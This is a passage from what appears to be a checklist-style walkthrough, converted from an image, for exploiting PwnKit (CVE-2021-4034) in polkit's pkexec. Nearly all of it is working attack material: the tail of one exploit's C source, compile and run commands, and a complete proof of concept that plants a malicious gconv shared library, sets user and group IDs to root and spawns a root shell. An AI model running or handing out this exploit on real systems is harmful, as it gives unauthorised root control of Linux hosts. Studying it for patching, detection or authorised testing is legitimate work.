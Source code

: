 ```c
    system("mkdir " DIR);
    system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules");
    system("cp " EVILSO ".so " DIR);
    
    execve(BIN, argv, envp);
    
    return 0;
}
```

- [ ] Compile the binaries
```bash
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
```

- [ ] Run exploit
```bash
./exploit
```

Alternatively, you may exploit this vulnerability using a different GitHub Repository.
https://github.com/arthepsy/CVE-2021-4034

- [ ] Create file `cve-2021-4034-poc.c`
```c
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

